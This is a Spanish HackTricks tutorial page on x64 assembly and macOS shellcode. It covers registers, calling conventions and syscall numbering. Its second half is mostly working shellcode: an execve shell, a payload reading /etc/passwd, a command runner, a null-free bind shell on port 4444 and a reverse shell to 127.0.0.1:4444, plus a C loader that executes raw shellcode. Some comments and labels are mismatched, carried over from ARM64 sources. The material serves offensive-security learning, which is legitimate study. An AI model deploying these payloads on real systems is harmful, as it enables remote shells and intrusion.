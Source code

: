 # Introducción a x64

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs al** [**repositorio de hacktricks**](https://github.com/carlospolop/hacktricks) **y al** [**repositorio de hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## **Introducción a x64**

x64, también conocido como x86-64, es una arquitectura de procesador de 64 bits utilizada predominantemente en computadoras de escritorio y servidores. Originada a partir de la arquitectura x86 producida por Intel y posteriormente adoptada por AMD con el nombre AMD64, es la arquitectura predominante en computadoras personales y servidores en la actualidad.

### **Registros**

x64 amplía la arquitectura x86, presentando **16 registros de propósito general** etiquetados como `rax`, `rbx`, `rcx`, `rdx`, `rbp`, `rsp`, `rsi`, `rdi` y `r8` a través de `r15`. Cada uno de estos registros puede almacenar un valor de **64 bits** (8 bytes). Estos registros también tienen sub-registros de 32 bits, 16 bits y 8 bits para compatibilidad y tareas específicas.

1. **`rax`** - Tradicionalmente utilizado para **valores de retorno** de funciones.
2. **`rbx`** - A menudo utilizado como un **registro base** para operaciones de memoria.
3. **`rcx`** - Comúnmente utilizado como **contador de bucle**.
4. **`rdx`** - Utilizado en varios roles, incluyendo operaciones aritméticas extendidas.
5. **`rbp`** - **Puntero base** para el marco de la pila.
6. **`rsp`** - **Puntero de pila**, que realiza un seguimiento de la parte superior de la pila.
7. **`rsi`** y **`rdi`** - Utilizados como índices de **origen** y **destino** en operaciones de cadena/memoria.
8. **`r8`** a **`r15`** - Registros de propósito general adicionales introducidos en x64.

### **Convención de llamada**

La convención de llamada x64 varía entre sistemas operativos. Por ejemplo:

* **Windows**: Los primeros **cuatro parámetros** se pasan en los registros **`rcx`**, **`rdx`**, **`r8`** y **`r9`**. Los parámetros adicionales se empujan a la pila. El valor de retorno se encuentra en **`rax`**.
* **System V (comúnmente utilizado en sistemas similares a UNIX)**: Los primeros **seis parámetros enteros o punteros** se pasan en los registros **`rdi`**, **`rsi`**, **`rdx`**, **`rcx`**, **`r8`** y **`r9`**. El valor de retorno también se encuentra en **`rax`**.

Si la función tiene más de seis entradas, el **resto se pasará en la pila**. **RSP**, el puntero de pila, debe estar **alineado en 16 bytes**, lo que significa que la dirección a la que apunta debe ser divisible por 16 antes de que ocurra cualquier llamada. Esto significa que normalmente tendríamos que asegurarnos de que RSP esté correctamente alineado en nuestro shellcode antes de realizar una llamada a una función. Sin embargo, en la práctica, las llamadas al sistema funcionan muchas veces incluso si este requisito no se cumple.

### **Instrucciones comunes**

Las instrucciones x64 tienen un conjunto amplio, manteniendo la compatibilidad con instrucciones x86 anteriores e introduciendo nuevas.

* **`mov`**: **Mueve** un valor de una **registro** o **ubicación de memoria** a otra.
* Ejemplo: `mov rax, rbx` — Mueve el valor de `rbx` a `rax`.
* **`push`** y **`pop`**: Empuja o saca valores de la **pila**.
* Ejemplo: `push rax` — Empuja el valor de `rax` a la pila.
* Ejemplo: `pop rax` — Saca el valor superior de la pila a `rax`.
* **`add`** y **`sub`**: Operaciones de **suma** y **resta**.
* Ejemplo: `add rax, rcx` — Suma los valores en `rax` y `rcx` almacenando el resultado en `rax`.
* **`mul`** y **`div`**: Operaciones de **multiplicación** y **división**. Nota: estas tienen comportamientos específicos en cuanto al uso de operandos.
* **`call`** y **`ret`**: Utilizados para **llamar** y **retornar de funciones**.
* **`int`**: Utilizado para generar una **interrupción de software**. Por ejemplo, `int 0x80` se utilizaba para llamadas al sistema en Linux x86 de 32 bits.
* **`cmp`**: **Compara** dos valores y establece las banderas de la CPU en función del resultado.
* Ejemplo: `cmp rax, rdx` — Compara `rax` con `rdx`.
* **`je`, `jne`, `jl`, `jge`, ...**: Instrucciones de **salto condicional** que cambian el flujo de control en función de los resultados de una instrucción `cmp` o prueba anterior.
* Ejemplo: Después de una instrucción `cmp rax, rdx`, `je label` — Salta a `label` si `rax` es igual a `rdx`.
* **`syscall`**: Utilizado para **llamadas al sistema** en algunos sistemas x64 (como Unix modernos).
* **`sysenter`**: Una instrucción de **llamada al sistema** optimizada en algunas plataformas.
### **Prólogo de la función**

1. **Guardar el antiguo puntero base**: `push rbp` (guarda el puntero base del llamador)
2. **Mover el puntero de pila actual al puntero base**: `mov rbp, rsp` (configura el nuevo puntero base para la función actual)
3. **Asignar espacio en la pila para variables locales**: `sub rsp, <size>` (donde `<size>` es el número de bytes necesarios)

### **Epílogo de la función**

1. **Mover el puntero base actual al puntero de pila**: `mov rsp, rbp` (desasignar variables locales)
2. **Desapilar el antiguo puntero base de la pila**: `pop rbp` (restaura el puntero base del llamador)
3. **Retornar**: `ret` (devuelve el control al llamador)

## macOS

### syscalls

Existen diferentes clases de syscalls, puedes [**encontrarlos aquí**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/osfmk/mach/i386/syscall\_sw.h)**:**
```c
#define SYSCALL_CLASS_NONE	0	/* Invalid */
#define SYSCALL_CLASS_MACH	1	/* Mach */
#define SYSCALL_CLASS_UNIX	2	/* Unix/BSD */
#define SYSCALL_CLASS_MDEP	3	/* Machine-dependent */
#define SYSCALL_CLASS_DIAG	4	/* Diagnostics */
#define SYSCALL_CLASS_IPC	5	/* Mach IPC */
```
A continuación, puedes encontrar el número de llamada al sistema **en esta URL**: [**enlace**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master).
```c
0	AUE_NULL	ALL	{ int nosys(void); }   { indirect syscall }
1	AUE_EXIT	ALL	{ void exit(int rval); }
2	AUE_FORK	ALL	{ int fork(void); }
3	AUE_NULL	ALL	{ user_ssize_t read(int fd, user_addr_t cbuf, user_size_t nbyte); }
4	AUE_NULL	ALL	{ user_ssize_t write(int fd, user_addr_t cbuf, user_size_t nbyte); }
5	AUE_OPEN_RWTC	ALL	{ int open(user_addr_t path, int flags, int mode); }
6	AUE_CLOSE	ALL	{ int close(int fd); }
7	AUE_WAIT4	ALL	{ int wait4(int pid, user_addr_t status, int options, user_addr_t rusage); }
8	AUE_NULL	ALL	{ int nosys(void); }   { old creat }
9	AUE_LINK	ALL	{ int link(user_addr_t path, user_addr_t link); }
10	AUE_UNLINK	ALL	{ int unlink(user_addr_t path); }
11	AUE_NULL	ALL	{ int nosys(void); }   { old execv }
12	AUE_CHDIR	ALL	{ int chdir(user_addr_t path); }
[...]
```
Entonces, para llamar a la llamada del sistema `open` (**5**) de la clase **Unix/BSD**, debes agregarle: `0x2000000`

Por lo tanto, el número de llamada del sistema para llamar a `open` sería `0x2000005`

### Shellcodes

Para compilar:

{% code overflow="wrap" %}
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
{% endcode %}

Para extraer los bytes:

{% code overflow="wrap" %}
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
{% endcode %}

<details>

<summary>Código C para probar el shellcode</summary>
```c
// code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/loader.c
// gcc loader.c -o loader
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>

int (*sc)();

char shellcode[] = "<INSERT SHELLCODE HERE>";

int main(int argc, char **argv) {
printf("[>] Shellcode Length: %zd Bytes\n", strlen(shellcode));

void *ptr = mmap(0, 0x1000, PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE | MAP_JIT, -1, 0);

if (ptr == MAP_FAILED) {
perror("mmap");
exit(-1);
}
printf("[+] SUCCESS: mmap\n");
printf("    |-> Return = %p\n", ptr);

void *dst = memcpy(ptr, shellcode, sizeof(shellcode));
printf("[+] SUCCESS: memcpy\n");
printf("    |-> Return = %p\n", dst);

int status = mprotect(ptr, 0x1000, PROT_EXEC | PROT_READ);

if (status == -1) {
perror("mprotect");
exit(-1);
}
printf("[+] SUCCESS: mprotect\n");
printf("    |-> Return = %d\n", status);

printf("[>] Trying to execute shellcode...\n");

sc = ptr;
sc();

return 0;
}
```
</details>

#### Shell

Tomado de [**aquí**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) y explicado.

{% tabs %}
{% tab title="con adr" %}
```armasm
bits 64
global _main
_main:
call    r_cmd64
db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
xor     rdx, rdx          ; store null arg3
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% tab title="con stack" %}
```armasm
bits 64
global _main

_main:
xor     rdx, rdx          ; zero our RDX
push    rdx               ; push NULL string terminator
mov     rbx, '/bin/zsh'   ; move the path into RBX
push    rbx               ; push the path, to the stack
mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% endtab %}
{% endtabs %}

#### Leer con cat

El objetivo es ejecutar `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, por lo que el segundo argumento (x1) es un array de parámetros (que en memoria significa una pila de direcciones).
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
push rsi   ; Add "/etc/passwd" to the stack (arg0)
push rdi   ; Add "/bin/cat" to the stack (arg1)

; Set in the 2nd argument of exec the addr of the array
mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

push    59      ; put 59 on the stack (execve syscall)
pop     rax     ; pop it to RAX
bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```
#### Invocar comando con sh

Cuando se trabaja en un entorno de línea de comandos en macOS, se puede utilizar el comando `sh` para invocar comandos y ejecutar scripts de shell. El comando `sh` es un intérprete de shell estándar en macOS y se utiliza para ejecutar comandos en un entorno de shell.

Para invocar un comando con `sh`, simplemente se debe escribir el comando seguido de `sh -c` y luego el comando que se desea ejecutar. Por ejemplo:

```bash
sh -c "comando"
```

Esto ejecutará el comando especificado utilizando `sh` como intérprete de shell.

Es importante tener en cuenta que al utilizar `sh`, se está utilizando un intérprete de shell básico y no se tienen todas las características avanzadas de otros intérpretes de shell como `bash`. Sin embargo, `sh` es ampliamente compatible y se encuentra disponible en la mayoría de los sistemas operativos basados en Unix, incluido macOS.

Al utilizar `sh` para invocar comandos, se puede aprovechar la flexibilidad y la potencia de los scripts de shell para automatizar tareas y realizar operaciones más complejas en el sistema operativo macOS.
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 32           ; Create space on the stack

; Argument array
lea rdi, [rel touch_command]
push rdi                      ; push &"touch /tmp/lalala"
lea rdi, [rel sh_c_option]
push rdi                      ; push &"-c"
lea rdi, [rel sh_path]
push rdi                      ; push &"/bin/sh"

; execve syscall
mov rsi, rsp                  ; rsi = pointer to argument array
xor rdx, rdx                  ; rdx = NULL (no env variables)
push    59                    ; put 59 on the stack (execve syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

_exit:
xor rdi, rdi                  ; Exit status code 0
push    1                     ; put 1 on the stack (exit syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```
#### Shell de enlace

Shell de enlace desde [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) en el **puerto 4444**.
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xffffffffa3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; bind(host_sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x68
syscall

; listen(host_sockid, 2)
xor  rsi, rsi
mov  sil, 0x2
mov  rax, r8
mov  al, 0x6a
syscall

; accept(host_sockid, 0, 0)
xor  rsi, rsi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x1e
syscall

mov rdi, rax
mov sil, 0x3

dup2:
; dup2(client_sockid, 2)
;   -> dup2(client_sockid, 1)
;   -> dup2(client_sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
mov  rax, r8
mov  al, 0x3b
syscall
```
#### Shell Inverso

Shell inverso desde [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Shell inverso a **127.0.0.1:4444**.
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xfeffff80a3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; connect(sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x62
syscall

xor rsi, rsi
mov sil, 0x3

dup2:
; dup2(sockid, 2)
;   -> dup2(sockid, 1)
;   -> dup2(sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x3b
syscall
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**merchandising oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs al** [**repositorio de hacktricks**](https://github.com/carlospolop/hacktricks) **y al** [**repositorio de hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
